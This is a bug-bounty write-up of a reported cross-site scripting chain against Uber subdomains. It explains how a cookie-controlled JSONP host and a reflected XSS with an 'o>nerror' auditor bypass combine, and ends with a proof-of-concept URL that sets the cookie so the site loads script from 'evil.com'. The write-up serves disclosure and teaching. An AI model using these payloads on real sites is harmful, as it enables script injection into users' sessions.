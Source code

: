 ```yaml
---
layout: post
title: Uber XSS via Cookie
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

&nbsp;&nbsp;&nbsp;This write up is about part of my latest XSS report to Uber@hackerone. Sorry for my poor English first of all, I will try my best to explain this XSS problem throughly.

## JSONP Request

&nbsp;&nbsp;&nbsp;Several months ago, when enjoying my Spring Festival Holiday at home, I decided to do something interesting, so I started hunting for a bug. I like searching in the chrome dev tools. This time my lucky word was jsonp, and my target domain was `https://get.uber.com`. Let’s look at what I had found at that time.

{% highlight javascript %}
idrCall: function() {
    var a, b;
    return this.idrCallPending ? void 0 : (this.log("making idr call"),
    a = this.rfiServer ? this.rfiServer : "a.rfihub.com",
    b = this.getProtocol() + "//" + a + "/idr.js",
    this.jsonpGet(b, {}, this.idrCallback, "cmZpSWRJbkNhY2hl"),
    this.idrCallPending = !0)
},
{% endhighlight %}

<img src="https://statics.symbo1.com/file/symbo1/article-images/9c5c5d93ly1fxqe8cbagsj21d00r0gsw.jpg">

&nbsp;&nbsp;&nbsp;Nothing suspicious? Not! When came cross these lines of code, I was thinking about whether the value of `this.rfiServer` could be controlled by me. If yes, we can force the browser to load arbitrary javascript file. To understand this, you should know the essence of JSONP. The next step was searching everything about `rfiServer`.

<img src="https://statics.symbo1.com/file/symbo1/article-images/9c5c5d93ly1fxqe84lvb3j20tm0f042c.jpg">

After reading through these lines of code:

{% highlight javascript %}
a = this.readCookie("_rfiServer"),
null != a && this.setRfiServer(a),
{% endhighlight %}

&nbsp;&nbsp;&nbsp;We could get the information that the initial value of `this.rfiServer` was set by using value of cookie `_rfiServer` if exists. Now the problem became how we can set cookie of Uber sites? But how? Here was the options in my mind at that time:

* HTTP Header CRLF Injection at any subdomain of uber.com
* XSS at any subdomain of uber.com

What? We need to find a bug to trigger another bug. And why any subdomain of uber.com?

## The Feature of Cookie

&nbsp;&nbsp;&nbsp;Any subdomain of uber.com can set cookie with domain `.uber.com` to be used across subdomains. For instance, we can set cookie in `xxx.uber.com` using following code, then `get.uber.com` will use the cookie value.

{% highlight javascript %}
document.cookie = '_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2018 01:43:57 GMT;path=/'
{% endhighlight %}

<img src="https://statics.symbo1.com/file/symbo1/article-images/9c5c5d93ly1fxqe87abluj20yt0u0qel.jpg">

## XSS of .uber.com which is Out of Scope

I did really find out one reflected XSS in one of Uber’s subdomain using search engine. Let’s call the domain `<redacted>.uber.com` for demo.

<img src="https://statics.symbo1.com/file/symbo1/article-images/9c5c5d93ly1fxqe89pzq4j21dw0fy79z.jpg">

1. `"` is reflected and not encoded. We can inject any attribution into `input` tag.
2. `type="text"` is after the injection point. So we can inject `type="image" src="1" onerror="alert(1)"`. Note that when there is two types, the second one will be ignored.
3. `>` is removed!!! This can be used to bypass Chrome XSS Auditor. How? `o>nerror.`

## Summary

1. Use reflected XSS of `<redacted>.uber.com` to set the value of `_rfiServer `cookie to `evil.com`
2. Visit `get.uber.com`, JSONP request to `https://evil.com/idr.js`, XSS of `get.uber.com` is done.
3. The final PoC

{% highlight javascript %}
https://<redacted>.uber.com/<redacted>?
email=aaa"%20type%3d"image"%20src%3d1%20o>nerror%3d"eval(decodeURIComponent(location.hash.substr(1)))
#document.cookie='_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2999 01:43:57 GMT;path=/';location.href="https://get.uber.com";
{% endhighlight %}

Thanks for Uber. Reward: 5k

